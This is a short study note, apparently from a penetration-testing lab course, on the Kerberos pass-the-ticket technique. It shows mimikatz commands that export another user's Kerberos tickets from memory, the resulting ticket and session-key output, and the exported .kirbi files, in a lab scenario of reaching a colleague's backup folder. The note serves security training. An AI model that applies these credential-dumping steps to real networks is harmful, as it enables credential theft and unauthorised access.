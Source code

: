 
### Pass The Ticket
#passtheticket #mimikatz 
Use TGS to authenticate to a specific service

#### Scenario
Logged in as Jen & want to steal dave's TGS to access a backup folder Jen doesn't have access to.

Use mimikatz `sekurlsa::tickets /export` to export all TGT/TGS from memory 
```hlt:1,4,
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

Verify newly generated tickets with `dir` 

```
PS C:\Tools> dir *.kirbi


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname